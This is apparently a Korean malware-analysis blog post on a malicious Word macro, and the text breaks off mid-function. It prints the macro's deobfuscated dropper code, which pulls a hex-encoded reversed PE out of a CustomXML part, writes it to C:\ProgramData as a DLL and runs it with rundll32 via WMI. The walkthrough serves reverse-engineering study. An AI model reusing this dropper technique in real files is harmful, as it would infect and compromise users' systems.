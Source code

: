 이런 문자열을 얻을 수 있었다. 

## Main 함수 분석 

앞에서 디코딩한 문자열로 코드를 교체해서 분석을 시작해 본다 

```vb
pnjbsrngsgckjayoasd = tylkftcicrjxfvkh(ActiveDocument.CustomXMLParts("http://localhost/").SelectSingleNode("/").Text)
diowrynmsjektmzbl = lcjsxjbkldksstie
raeozmfjnymq "C:\ProgramData\" + diowrynmsjektmzbl, pnjbsrngsgckjayoasd, False
pnjbsrngsgckjayoasd = "C:\ProgramData\"
Set fhfcsnunstz = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2")
Set xydisndhrfnkrmnael = fhfcsnunstz.Get("Win32_ProcessStartup")
Set ieupzwunaig = xydisndhrfnkrmnael.SpawnInstance_
Set mpuduxzmupgceh = GetObject("winmgmts:root\cimv2:Win32_Process")
nvplchnzsnuzfpoy = "rundll32" + rrhzspxkphvvy(merrdjtosyhjjuraz) + diowrynmsjektmzbl + ",init"
vdibilucsvcvqrqhgbyy = mpuduxzmupgceh.Create(nvplchnzsnuzfpoy, Null, ieupzwunaig, uyyuhnoffydfft)
```

이제 코드가 정리가 잘 되어보인다. 

### ActiveDocument.CustomXMLParts("http://localhost/").SelectSingleNode("/").Text 

이코드는 OOXML 구조에서 CustomXML 의 http://localhost 부분의 내용을 가져온다는 의미

이 악성코드를 zip으로 확장자를 변경해서 내부를 확인해보면 customXml 디렉터리 내부에 item1.xml 폴더가 있다 
    
```xml
<custom-xml-content xmlns="http://localhost/">핵사값 </custom-xml-content>
```
이런 형태의 xml이 있다. (핵사값은 길이가 길어 생략)

안에 있는 핵사값을 복사해서 HXD프로그램에 넣어서 확인해보면 알수 없는 형태의 파일이 만들어지는데 이 파일의 정체는 마지막 부분을 확인해 보면 알 수 있다. 

![images]({{site.url}}/images/그림2.png)

이 파일의 정체는 거꾸로 되어있는 PE파일이다.

하지만 아직 이 파일이 exe파일인지 dll파일인지 알수는 없다 

다음 코드를 조금 더 분석해 보면 정확한 정체를 알 수 있다. 

### diowrynmsjektmzbl = lcjsxjbkldksstie

이코드에서 lcjsxjbkldksstie는 함수이다. 함수를 실행해 특정 값을 반환하는 코드로 보인다.
```vb
Private Function lcjsxjbkldksstie() As Byte()
Const retkrmjepnvpt = "174165" 'KB
Const kppsxxgzlizwzk = "145167175175" '.dll
Dim bvtmffmapjkqz As Integer
Dim phtlfmyqnkhwagf As Variant
Dim xijjpjosysboevz() As Byte
Dim asertrmporfilkp() As Byte
Dim qbtpnhioyfve() As Byte
Randomize
bvtmffmapjkqz = CInt(Rnd * 100)
If bvtmffmapjkqz > 100 Then
    phtlfmyqnkhwagf = ylpdfpnmlbmswkm
Else
    phtlfmyqnkhwagf = cwqykutktzoyalcwyhbf
End If
bvtmffmapjkqz = Rnd * UBound(phtlfmyqnkhwagf)
xijjpjosysboevz = phtlfmyqnkhwagf(bvtmffmapjkqz)
qbtpnhioyfve = zmzddjxylinzyx(rrhzspxkphvvy(retkrmjepnvpt), xijjpjosysboevz)
ReDim asertrmporfilkp(0 To 1)
asertrmporfilkp(0) = CInt(Rnd * 9 + 48)
```